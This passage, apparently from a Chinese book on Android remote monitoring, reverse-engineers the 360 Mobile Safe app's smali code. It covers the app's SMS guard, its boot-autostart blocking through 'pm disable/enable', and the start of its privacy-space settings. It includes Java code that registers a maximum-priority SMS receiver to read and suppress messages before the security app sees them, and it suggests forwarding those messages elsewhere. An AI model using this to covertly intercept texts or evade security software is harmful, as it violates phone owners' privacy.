return-void
:cond_1
const-class v0, Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;
invoke-virtual {p2,p1,v0}, Landroid/content/Intent;->setClass(...)
invoke-static {}, Lavv;->a()I
move-result v0
const-string v1, "MessageReceiver"
...
if-eqz v0, :cond_3  # 如果为 0 则跳走（开启保护），为有序广播就继续处理
invoke-direct {p0, p1, p2}, Lcom/qihoo360/mobilesafe/receiver/MessageReceiver;->a(...)
...
```

```smali
# ⑨ 调用 a() 方法 ⑨
:goto_2
    invoke-static {p1},
    Lcp;->c(Landroid/content/Context;)V
    goto :goto_0    # 返回
:catch_0    # catch 处理
    move-exception v0
    const-string v1, "MessageReceiver"
    new-instance v2, Ljava/lang/StringBuilder;
    invoke-direct {v2}, Ljava/lang/StringBuilder;-><init>()V
    const-string v3, "invoke error "  # 生成错误提示字符串
    invoke-virtual {v2, v3}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
    move-result-object v2
    invoke-virtual {v0}, Ljava/lang/Exception;->toString()Ljava/lang/String;
    move-result-object v0
    invoke-virtual {v2, v0}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
    move-result-object v0
    invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
    move-result-object v0
    invoke-static {v1, v0}, Lals;->b(Ljava/lang/String;Ljava/lang/String;)V   # 这里打 log 显示

    move v0, v4
    goto :goto_1
:cond_2
    move v0, v4
    goto :goto_1
:cond_3
    invoke-virtual {p1, p2}, Landroid/content/Context;->startService(Landroid/content/Intent;)Landroid/content/ComponentName;

    # ⑨ 启用了 SafeGuardMmsService 服务（开启拦截短信服务^^）⑨
    goto :goto_2
.end method
```

```smali
invoke-direct {v0, p0},
Lhl;-><init>(Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;)V
sput-object v0,
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->d:Landroid/database/ContentObserver;

invoke-virtual {p0},
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->getContentResolver()Landroid/content/ContentResolver;
# getContentResolver() 获取 ContentResolver
move-result-object v0
sget-object v1,
Landroid/provider/Telephony$Sms;->CONTENT_URI:Landroid/net/Uri;
const/4 v2, 0x1   # 获取短信的 CONTENT_URI，后面对它进行监视
sget-object v3,
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->d:Landroid/database/ContentObserver;
invoke-virtual {v0, v1, v2, v3},
Landroid/content/ContentResolver;->registerContentObserver(Landroid/net/Uri;ZLandroid/database/ContentObserver;)V
# 注册短信数据库监视器对短信数据库变化进行监听

const/4 v0, 0x0
sput-boolean v0, Lac;->a:Z
new-instance v0, Landroid/content/IntentFilter;
const-string v1, "android.provider.Telephony.SMS_RECEIVED" # 这个大家熟悉了，用来注册短信广播接收者
invoke-direct {v0, v1}, Landroid/content/IntentFilter;-><init>(Ljava/lang/String;)V
const v1, 0x7fffffff
invoke-virtual {v0, v1}, Landroid/content/IntentFilter;->setPriority(I)V   # 设置最高的优先级

new-instance v1,
Lcom/qihoo360/mobilesafe/receiver/MessageReceiver;
invoke-direct {v1},
Lcom/qihoo360/mobilesafe/receiver/MessageReceiver;-><init>()V
sput-object v1,
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->h:Lcom/qihoo360/mobilesafe/receiver/MessageReceiver;

sget-object v1,
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->h:Lcom/qihoo360/mobilesafe/receiver/MessageReceiver;
invoke-virtual {p0, v1, v0},
Lcom/qihoo360/mobilesafe/service/SafeGuardMmsService;->registerReceiver(Landroid/content/BroadcastReceiver;Landroid/content/IntentFilter;)Landroid/content/Intent;
# ⑨ 动态注册短信广播接收者 ⑨

return-void
.end method
```

在 onReceive() 收到广播后，对消息进行判断，对是否为有序广播执行了 a() 与开启防卫服务的两个分支。a() 方法是很典型的消息处理代码，收到消息后对广播进行了中断，由于代码过长，我就不贴出来了，大家可以自己打开 Smali 看看。另一个是 SafeGuardMmsService，它的 onCreate() 代码如下：

```smali
.method public onCreate()V
    .locals 4
    invoke-super {p0},
    Lcom/qihoo360/mobilesafe/service/MobileSafeService;->onCreate()V

    const-string v0, "SafeGuardMmsService"
    const-string v1, "onCreate"
    invoke-static {v0, v1},
    Lals;->b(Ljava/lang/String;Ljava/lang/String;)V   # 这里打 LOG

    new-instance v0, Lhl;
    ...
```

在静态广播中创建一个服务，在服务中又动态创建一个广播，真可谓是用心良苦啊！那这个 MessageReceiver 何时收到？服务何时启动呢？我没有再深入了，不过它不是在开机启动广播中启动的，这为我们下一步的成功照亮了方向。下面是证据：打开“BootActionReceiver.smali”文件，看它的 onReceive() 方法：

Android 远程监控技术 >>>

```java
.method public onReceive(Landroid/content/Context;Landroid/content/Intent;)
    .locals 2
    invoke-static {}, Landroid/os/SystemClock;->uptimeMillis()J
    move-result-wide v0
    sput-wide v0, Lcom/qihoo360/mobilesafe/ui/index/MobileSafeApplication;->c:J

    invoke-static {}, Ljava/lang/System;->currentTimeMillis()J
    move-result-wide v0
    sput-wide v0, Lcom/qihoo360/mobilesafe/ui/index/MobileSafeApplication;->d:J

    invoke-static {p1}, Lom;->a(Landroid/content/Context;)V
    return-void
.end method
```

```java
:cond_1
return-void
.end method
```

可以看到，在开机广播中，360 手机卫士没有直接动态地注册短信广播接收者。我们可以在启动自己程序时动态安装一个权限最高的短信广播，这样就会优先于 360 收到短信了。

下面开始写测试程序，看看笔者的开机广播代码：

```java
public class BootCompletedReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Log.i("Test360", "系统启动完毕!");

        Test360Activity.StartActivity(context);
        Intent service = new Intent(context, Test360Service.class);
        context.startService(service); // 在开机后启动一个服务
    }
}
```

对 om.a() 方法继续跟踪：（找到 om.smali 文件并打开）

```java
.method public static a(Landroid/content/Context;)V
    .locals 3
    const/4 v2, 0x1
    new-instance v0, Lafc;
    invoke-direct {v0, p0}, Lafc;-><init>(Landroid/content/Context;)V
    invoke-virtual {v0}, Lafc;->i()Z
    move-result v0
    if-eqz v0, :cond_0

    new-instance v0, Landroid/content/Intent;
    const-class v1, Lcom/qihoo360/mobilesafe/protection/PhoneProtectionLockWindow;
    invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
    const-string v1, "PROTECTION_LOCK"
    invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Z)Landroid/content/Intent;
    invoke-virtual {p0, v0}, Landroid/content/Context;->startService(Landroid/content/Intent;)Landroid/content/ComponentName;

    :cond_0
    sget-boolean v0, Lom;->d:Z
    if-nez v0, :cond_1
    sput-boolean v2, Lom;->d:Z

    new-instance v0, Laam;
    const-string v1, "SimCheckService"
    invoke-virtual {p0}, Landroid/content/Context;->getApplicationContext()Landroid/content/Context;
    move-result-object v2
    invoke-direct {v0, v1, v2}, Laam;-><init>(Ljava/lang/String;Landroid/content/Context;)V
    sput-object v0, Lom;->e:Laam;
    sget-object v0, Lom;->e:Laam;
    invoke-virtual {v0}, Laam;->start()V

    :cond_1
    return-void
.end method
```

如法炮制，在接收到开机广播的时候启动了一个服务，服务的 onCreate() 代码如下：

```java
@Override
public void onCreate() {
    Log.i("TAG", "onCreate");
    IntentFilter localIntentFilter = new IntentFilter("android.provider.Telephony.SMS_RECEIVED");
    localIntentFilter.setPriority(2147483647);
    MmsReceiver receiver = new MmsReceiver();
    registerReceiver(receiver, localIntentFilter); // 动态创建一个优先级最高的短信广播接收者

    IntentFilter localIntentFilter2 = new IntentFilter("android.provider.Telephony.SMS_RECEIVED");
    localIntentFilter2.setPriority(2147483647);
    ShutdownReceiver receiver2 = new ShutdownReceiver();
    registerReceiver(receiver2, localIntentFilter2); // 动态创建一个关机广播接收者

    super.onCreate();
}
```

我动态创建了一个优先级为 2147483647 的短信广播接收者，收到短信后我只是简单地启动了程序的主 Activity 并 Toast 显示出短信（当然，你也可以自己处理它，如发送出去或直接屏蔽掉，具体代码留给读者自己来实现），代码如下：

```java
public class MmsReceiver extends BroadcastReceiver {
    String receiveMsg = "";

    @Override
    public void onReceive(Context context, Intent intent) {
        // TODO Auto-generated method stub
        SmsMessage[] Msg = null;
    }
}
```

## Android流程重建实战

```java
if(intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")){
    Test360Activity.StartActivity(context);
    Log.i("Test360","收到短信广播...");
    Bundle bundle = intent.getExtras();
    if(bundle != null){
        Object[] pdusObj = (Object[])bundle.get("pdus");
        Msg = new SmsMessage[pdusObj.length];
        for(int i=0; i<pdusObj.length; i++){
            Msg[i] = SmsMessage.createFromPdu((byte[])pdusObj[i]);
        }
        for(int i=0; i<Msg.length; i++){
            String MsgTxt = Msg[i].getOriginatingAddress() + ":" + Msg[i].getMessageBody();
            Toast.makeText(context, MsgTxt, Toast.LENGTH_LONG).show();
        }
        abortBroadcast();
    }
}
```

代码写好了，重启手机，发送两条查询指令给10010，看看测试效果，如图1所示。


图1

测试程序优先收到了短信，而360没反应。

### 3. 开机启动

在 Android 手机拥有 ROOT 权限的时候，360开启了一个开机加速的功能，如图2所示。


图2

单击上面任意一项或一键加速，就可以取消该程序的开机自动启动，这个功能立刻引起了我的好奇。学习过 Android 开发的朋友可能都会知道，通过添加对“android.intent.action.BOOT_COMPLETED”处理的广播就可以实现开机启动时执行自己的一段代码，可是如何禁用开机启动大多数人都不知道，于是我就有了想弄明白它的念头。

首先用 ApkTool GUI 反编译 360 的 APK 主程序，会提示反编译错误，不用理会；不过我们要分析的代码都已经成功地反编译出来了。在反汇编的 Smali 文件夹中搜索“android.intent.action.BOOT_COMPLETED”，我们可以很快发现“AutoRunManager.smali”与“ExamMain.smali”两个文件中有结果。通过文件名果断判断第一个文件是我们要分析的重点，它位于“smali\com\qihoo360\mobilesafe\opti\autorun”文件夹。

打开“AutoRunManager.smali”文件，我们发现“AutoRunManager”类是继承自“android/app/Activity”的。搜索“android.intent.action.BOOT_COMPLETED”，发现在“.method private a(ZZ)”、“.method private e()V”、“.method public onCreate(Landroid/os/Bundle;)V”3处有调用。先到 onCreate() 方法中看看，代码被 Proguard 过，很难阅读，不过我们可以简单地判断它只是进行了初始化，然后启动一个 AsyncTask。

关键代码不在这里，限于篇幅就不列出来了。那怎么找关键点呢？我们看看上面显示的图，知道单击一键加速按钮与任意一栏的 List 后会执行加速动作。我们仔细观察会发现在“onCreate(Landroid/os/Bundle;)V”方法的下面有个 public onItemClick() 方法，代码如下：

```smali
.method public onItemClick(Landroid/widget/AdapterView;Landroid/view/View;IJ)V
    .locals 3
    const/4 v1, 0x0
    invoke-virtual {p1}, Landroid/widget/AdapterView;->getId()I   # 获取ID
    move-result v0
    packed-switch v0, :pswitch_data_0  # Switch语句调用
    :cond_0
    :goto_0
    :pswitch_0  # 分支0
    return-void
    :pswitch_1  # 分支1
    iput v1, p0, Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->x:I

    iget-boolean v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->p:Z

    if-nez v0, :cond_1    # 通过 p 是否为真来进行相应的操作。后面分析发现是启用还是禁止的 Boolean 值
    invoke-direct {p0},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->f()V # 刷新显示

    goto :goto_0
    :cond_1
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->u:Lank;

    if-eqz v0, :cond_2
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->u:Lank;

    iget-boolean v0, v0, Lank;->b:Z
    if-eqz v0, :cond_2    # u 与 u->b 不能为空
    if-ltz p3, :cond_0
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->K:Ljava/util/List;

    invoke-interface {v0}, Ljava/util/List;->size()I    # 获取 List 的大小
    move-result v0
    if-ge p3, v0, :cond_0
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->c:Landroid/widget/ListView;

    invoke-virtual {v0, p3},
    Landroid/widget/ListView;->getItemAtPosition(I)Ljava/lang/Object;

    move-result-object v0    # 获取选中项
    check-cast v0, Lads;
    iput-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->C:Lads; # 保存到 C 中
    iput-boolean v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->D:Z

    iget-boolean v1, v0, Lads;->e:Z
    if-eqz v1, :cond_0
    :try_start_0
    const-string v1, ""
    const v2, 0x7f0b0481
    invoke-virtual {p0, v2},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->getText(I)Ljava/lang/CharSequence;
    move-result-object v2    # 获取进度对话框显示的字符串
    invoke-static {p0, v1, v2},
    Landroid/app/ProgressDialog;->show(Landroid/content/Context;Ljava/lang/CharSequence;Ljava/lang/CharSequence;)Landroid/app/ProgressDialog;    # 显示进度对话框
    move-result-object v1
    iput-object v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->w:Landroid/app/ProgressDialog;
    :try_end_0
    .catch Ljava/lang/Exception;
    { :try_start_0 .. :try_end_0 } :catch_1

    goto :goto_1
    iget-object v1, v0, Lads;->b:Ljava/util/ArrayList;
    invoke-virtual {v1}, Ljava/util/ArrayList;->size()I
    move-result v1
    iput v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->E:I    # 保存列表项数

    iget-object v0, v0, Lads;->b:Ljava/util/ArrayList;
    invoke-virtual {v0},
    Ljava/util/ArrayList;->iterator()Ljava/util/Iterator; # 获取 List 迭代器

    move-result-object v1
    :goto_2    # 开始循环处理
    invoke-interface {v1},
    Ljava/util/Iterator;->hasNext()Z # 是否处理完
    move-result v0
    if-eqz v0, :cond_0
    invoke-interface {v1},
    Ljava/util/Iterator;->next()Ljava/lang/Object;
    move-result-object v0
    check-cast v0, Laqo;
    iget-object v0, v0, Laqo;->b:Ljava/lang/String; # 获取要处理的字符串，分析为 APK 包名
    invoke-direct {p0, v0},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->b(Ljava/lang/String;)V

    goto :goto_2    # 调用 b(Ljava/lang/String;)V 后继续循环。
    :cond_2
    invoke-direct {p0},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->f()V # 刷新显示

    goto :goto_0    # 方法返回
    :pswitch_2    # 分支 2
    iput v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->x:I

    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->u:Lank;
    if-eqz v0, :cond_3
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->u:Lank;

    iget-boolean v0, v0, Lank;->b:Z
    if-eqz v0, :cond_3
    if-ltz p3, :cond_0
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->L:Ljava/util/List;
    invoke-interface {v0}, Ljava/util/List;->size()I
    move-result v0
    if-ge p3, v0, :cond_0
    iget-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->d:Landroid/widget/ListView;
    invoke-virtual {v0, p3},
    Landroid/widget/ListView;->getItemAtPosition(I)Ljava/lang/Object;

    move-result-object v0
    check-cast v0, Lads;
    iput-object v0, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->C:Lads;
    const/4 v1, 0x1
    iput-boolean v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->D:Z

    iget-boolean v1, v0, Lads;->e:Z
    if-nez v1, :cond_0
    :try_start_1
    const-string v1, ""
    const v2, 0x7f0b0482
    invoke-virtual {p0, v2},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->getText(I)Ljava/lang/CharSequence;
    move-result-object v2
    invoke-static {p0, v1, v2},
    Landroid/app/ProgressDialog;->show(Landroid/content/Context;Ljava/lang/CharSequence;Ljava/lang/CharSequence;)Landroid/app/ProgressDialog;
    # 获取显示的字符串
    move-result-object v1
    iput-object v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->w:Landroid/app/ProgressDialog;
    # 显示进度对话框
    :try_end_1
    .catch Ljava/lang/Exception;
    { :try_start_1 .. :try_end_1 } :catch_0
    :goto_3
    iget-object v1, v0, Lads;->b:Ljava/util/ArrayList;
    invoke-virtual {v1}, Ljava/util/ArrayList;->size()I
    # 需要处理的条数
    move-result v1
    iput v1, p0,
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->E:I
    iget-object v0, v0, Lads;->b:Ljava/util/ArrayList;
    invoke-virtual {v0},
    Ljava/util/ArrayList;->iterator()Ljava/util/Iterator;  # List 处理迭代器
    move-result-object v1
    :goto_4 # 循环处理开始
    invoke-interface {v1},
    Ljava/util/Iterator;->hasNext()Z   # 是否处理完
    move-result v0
    if-eqz v0, :cond_0
    invoke-interface {v1},
    Ljava/util/Iterator;->next()Ljava/lang/Object;
    move-result-object v0
    check-cast v0, Laqo;
    iget-object v0, v0, Laqo;->b:Ljava/lang/String;
    invoke-direct {p0, v0},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->a(Ljava/lang/String;)V
    goto :goto_4
    :cond_3
    invoke-direct {p0},
    Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->f()V
    # f() 方法刷新显示
    :catch_0
    move-exception v1
    goto :goto_3
    :catch_1
    move-exception v1
    goto/16 :goto_1
    :pswitch_data_0
    .packed-switch 0x7f0a0032
    :pswitch_1
    :pswitch_0
    :pswitch_2
    .end packed-switch
.end method
```

这个“onItemClick(Landroid/widget/AdapterView;Landroid/view/View;IJ)V”是列表点击事件的完整处理代码，虽然被混淆过，仔细分析还是能看出代码通过三个 Switch 分支对不同的状况进行了处理。

为0直接返回，而1与2的情况整体上差不多，只是在迭代处理的时候分别调用了“b(Ljava/lang/String;)V”与“a(Ljava/lang/String;)V”方法，看看“b(Ljava/lang/String;)V”的代码：

```smali
.method private b(Ljava/lang/String;)V
.locals 1
const-string v0, "disable"
invoke-direct {p0, v0, p1},
Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->a(Ljava/lang/String;Ljava/lang/String;)V
return-void
.end method
```

只是传递了“disable”字符串，然后调用了“a(Ljava/lang/String;Ljava/lang/String;)V”方法，代码如下：

```smali
.method private a(Ljava/lang/String;Ljava/lang/String;)V
.locals 3
new-instance v0, Ljava/lang/StringBuffer;
const-string v1, "pm"
invoke-direct {v0, v1}, Ljava/lang/StringBuffer;-><init>(Ljava/lang/String;)V
const-string v1, " "
invoke-virtual {v0, v1}, Ljava/lang/StringBuffer;->append(Ljava/lang/String;)Ljava/lang/StringBuffer;
invoke-virtual {v0, p1}, Ljava/lang/StringBuffer;->append(Ljava/lang/String;)Ljava/lang/StringBuffer;
const-string v1, " "
invoke-virtual {v0, v1}, Ljava/lang/StringBuffer;->append(Ljava/lang/String;)Ljava/lang/StringBuffer;
const-string v1, "$"
const-string v2, "\\$"
invoke-virtual {p2, v1, v2}, Ljava/lang/String;->replace(Ljava/lang/CharSequence;Ljava/lang/CharSequence;)Ljava/lang/String;
move-result-object v1
invoke-virtual {v0, v1}, Ljava/lang/StringBuffer;->append(Ljava/lang/String;)Ljava/lang/StringBuffer;
iget-object v1, p0,
Lcom/qihoo360/mobilesafe/opti/autorun/AutoRunManager;->u:Lank;
invoke-virtual {v0}, Ljava/lang/StringBuffer;->toString()Ljava/lang/String;
move-result-object v0
invoke-virtual {v1, v0}, Lank;->a(Ljava/lang/String;)V
return-void
.end method
```

这段代码功能就是执行“pm disable XXX”，我们再看看 `a(Ljava/lang/String;)V` 的代码：

```smali
.method private a(Ljava/lang/String;)V
    .locals 1

    const-string v0, "enable"
    invoke-direct {p0, v0, p1}, Lcom/qihoo360/mobilesafe/opt/autorun/AutoRunManager;->a(Ljava/lang/String;Ljava/lang/String;)V

    return-void
.end method
```

很清楚很明了吧，执行的是 “pm enable xxx”。后来笔者发现 pm 是 Android 中自带的一个包管理器，新建一个 “adb shell” 后，输入 pm 命令，返回结果如图 3 所示。


图 3

意思是传入 “package/class” 就可以启用或禁止一个包的类名了，到这里 360 的禁止开机启动的方法真相大白了。我们可以在自己创建的服务代码里面加上 “pm enable xxx” 来自己启动，但是在实际测试过程中，我们的程序还是没有开机启动，很显然，360 这个 “pm disable xxx” 在我们的程序启动前执行了一次，这真是让人头大啊，怎么办？我关掉了 360 的进程与服务，等一会儿，手机锁屏了，我解锁后神奇地发现 360 又复活了！查看 360 的 “AndroidManifest.xml” 文件，发现它还有个锁屏广播，在解锁后又启动了 360 手机卫士，在初始化时就执行了 “pm disable xxx”（这里的 xxx 为要禁用的 APK 软件包与类名，360 自己是维持黑白名单的），锁屏广播代码就不贴了，我想了想绕过的方法，难道只能自己动手改写 360 的黑白名单？我不再弄下去了，而是如法炮制地自己动手整了个锁屏的广播接收者，把自己要的功能代码加进去，等有时间我会继续深入下去的。

### 4. 隐私空间

想当年，《手机》这部电影带来的影响可是沸腾了多少男人的心啊，女孩们都学会了翻自己男朋友的手机。偷看短信、查通话记录。然后吵架、打架、分手……跟电影上演的可真是一样一样。给自己通话记录加密也成为了很多男士的梦想，现如今使用 Android 平台手机的用户可真有了福音，因为最新的 360 手机卫士就带了“隐私空间”这个功能（呵呵，涉嫌帮 360 做广告），如图 4 所示。


图 4

首次进入“隐私空间”需要设置访问密码，以后访问“隐私空间”就需要输入密码来授权访问了，在“隐私空间”中，可以设置保密的联系人，与保密联系人之间的短信与通话记录就会被加密起来，这个功能真是太好了。

“隐私空间”真如名字所说的那样隐私么？带着好奇心，我开始了分析：打开“输入密码”这个界面，随便输入错误的密码，程序提示“密码错误，请重试”。在反汇编出的 360 Smali 文件夹中搜索错误提示，无果，说明提示信息可能进行了加密。我们换换思路，单击界面上的“忘记密码”按钮，会弹出一个提示，如果先前有设置密码找回 Email 的话会提示发送新密码到设置的邮箱，如图 5 所示。


图 5

我们可否从这个 Email 入手呢？在文件夹中搜索 “email”，“PrivateSetupPreference.smali” 文件映入眼帘，它位于 `smali\com\qihoo360\mobilesafe\ui\privatespace`，看文件名猜想应该是“隐私空间”设置页面，用 EditPlus 打开它，选择 “View”→“Code Folding”→“Collapse All” 命令将所有的方法收拢，看看有哪些方法。首先看到了 `onCreate(Landroid/os/Bundle;)V`，我们看看代码：

```smali
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 3
    invoke-super {p0, p1}, Landroid/preference/PreferenceActivity;->onCreate(Landroid/os/Bundle;)V

    const-string v0, "PrivateSetupPreference"
    const-string v1, "onCreate"
    invoke-static {v0, v1}, Lals;->b(Ljava/lang/String;Ljava/lang/String;)V

    invoke-static {}, Lauj;->b()Z
    move-result v0
    if-nez v0, :cond_1
    invoke-static {p0}, Lauj;->a(Landroid/app/Activity;)V

    :cond_0
    :goto_0
    return-void

    :cond_1
    const v0, 0x7f030098
    invoke-virtual {p0, v0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->setContentView(I)V

    invoke-virtual {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getListView()Landroid/widget/ListView;
    move-result-object v0

    invoke-virtual {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getResources()Landroid/content/res/Resources;
    move-result-object v1
    const v2, 0x106000d
    invoke-virtual {v1, v2}, Landroid/content/res/Resources;->getColor(I)I
    move-result v1
    invoke-virtual {v0, v1}, Landroid/widget/ListView;->setCacheColorHint(I)V

    invoke-virtual {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getResources()Landroid/content/res/Resources;
    move-result-object v1
    const v2, 0x7f020083
    invoke-virtual {v1, v2}, Landroid/content/res/Resources;->getDrawable(I)Landroid/graphics/drawable/Drawable;
    move-result-object v1
    invoke-virtual {v0, v1}, Landroid/widget/ListView;->setDivider(Landroid/graphics/drawable/Drawable;)V
.end method
```

```smali
const v0, 0x7f050003
invoke-virtual {p0, v0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->addPreferencesFromResource(I)V

const-string v0, "private_auto_sms_content"
invoke-direct {p0, v0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->a(Ljava/lang/String;)Landroid/preference/ListPreference;
move-result-object v0
iput-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->f:Landroid/preference/ListPreference;

iget-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->f:Landroid/preference/ListPreference;
const-string v1, "private_auto_sms_content"
const v2, 0x7f070017
invoke-direct {p0, v0, v1, v2}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->a(Landroid/preference/ListPreference;Ljava/lang/String;I)V

invoke-virtual {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getResources()Landroid/content/res/Resources;
move-result-object v0
const v1, 0x7f0b0017
invoke-virtual {v0, v1}, Landroid/content/res/Resources;->getString(I)Ljava/lang/String;
move-result-object v0
iput-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->g:Ljava/lang/String;

invoke-virtual {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getPreferenceScreen()Landroid/preference/PreferenceScreen;
move-result-object v0
const-string v1, "private_mainmenu_title"
invoke-virtual {v0, v1}, Landroid/preference/PreferenceScreen;->findPreference(Ljava/lang/CharSequence;)Landroid/preference/Preference;
move-result-object v0
iput-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->e:Landroid/preference/Preference;

iget-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->e:Landroid/preference/Preference;
if-eqz v0, :cond_2
iget-object v0, p0, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->e:Landroid/preference/Preference;
invoke-virtual {v0}, Landroid/preference/Preference;->getSharedPreferences()Landroid/content/SharedPreferences;
move-result-object v0
invoke-interface {v0, p0}, Landroid/content/SharedPreferences;->registerOnSharedPreferenceChangeListener(Landroid/content/SharedPreferences$OnSharedPreferenceChangeListener;)V
```

```smali
new-instance v1, Lagr;    # new 一个 agr 对象
invoke-direct {v1, p0},
Lagr;-><init>(Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;)V
invoke-virtual {v0, v1},
Landroid/preference/Preference;->setOnPreferenceClickListener(Landroid/preference/Preference$OnPreferenceClickListener;)V   # 设置监听器

:cond_2
invoke-virtual {p0},
Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->getPreferenceScreen()Landroid/preference/PreferenceScreen;
move-result-object v0
const-string v1, "private_pwd"
invoke-virtual {v0, v1},
Landroid/preference/PreferenceScreen;->findPreference(Ljava/lang/CharSequence;)Landroid/preference/Preference;
move-result-object v0   # 查找隐私密码 List 的 Preference
iput-object v0, p0,
Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->a:Landroid/preference/Preference;

...（后续为同类 smali 代码，包含 private_email、SharedPreferences 监听注册等）
```

```smali
if-eqz v0, :cond_4
iget-object v0, p0,
Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->b:Landroid/preference/Preference;
invoke-virtual {v0},
Landroid/preference/Preference;->getSharedPreferences()Landroid/content/SharedPreferences;
move-result-object v0
invoke-interface {v0, p0},
Landroid/content/SharedPreferences;->registerOnSharedPreferenceChangeListener(Landroid/content/SharedPreferences$OnSharedPreferenceChangeListener;)V   # 注册监听器

iget-object v0, p0,
Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->c:Landroid/preference/Preference;
...
const-string v1, "user_custom_private_pic"
invoke-virtual {v0, v1},
Landroid/preference/PreferenceScreen;->findPreference(Ljava/lang/CharSequence;)Landroid/preference/Preference;
move-result-object v0   # 查找用户自定义“隐私空间”图标 List 的 Preference

...（后续为同类 smali 代码，包含 c 字段赋值、SharedPreferences 监听注册、setOnPreferenceClickListener 等）
```

## Android 远程监控技术

```smali
move-result-object v0
const-string v1, "user_custom_private_pic_call"
invoke-virtual {v0, v1}, Landroid/preference/PreferenceScreen;->findPreference(Ljava/lang/CharSequence;)Landroid/preference/Preference;
...
new-instance v1, Lagn;
invoke-direct {v1, p0}, Lagn;-><init>(Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;)V
invoke-virtual {v0, v1}, Landroid/preference/Preference;->setOnPreferenceClickListener(Landroid/preference/Preference$OnPreferenceClickListener;)V
...
.end method
```

在 `onCreate(Landroid/os/Bundle;)V` 方法中可以看到分别对“隐私空间”设置 Activity 的“更改隐私密码”、“密码保护邮箱”、“主界面显示名称及图标”的单击事件设置了监听器，而每个监听器则是 new 的一个对象，如为“密码保护邮箱”new 了一个 agp 对象，而“更改隐私密码”则 new 了一个 ago 对象，ago 对象是个什么对象呢？

通过笔者对 ProGuard 生成的代码分析经验所得，它应该只是一个普通的监听器方法。ProGuard 会将一个类中的监听器方法抽取成一个单独而随机的类，而名称与变量的生成规则是按照从 “a~z” 的方式生成的，如第一个类方法会是 a()，下一个类方法如果参数与 a() 不同则是 a(xxx)，这里的 “xxx” 就是参数列表，如果下一个方法名不能用 a() 重载的方式生成，就会用 b() 方法来表示，同样不能用 b() 来重载的方法就会用 c() 来生成，以此类推，变量名也是如此。

下面是 ago 对象的代码：

```smali
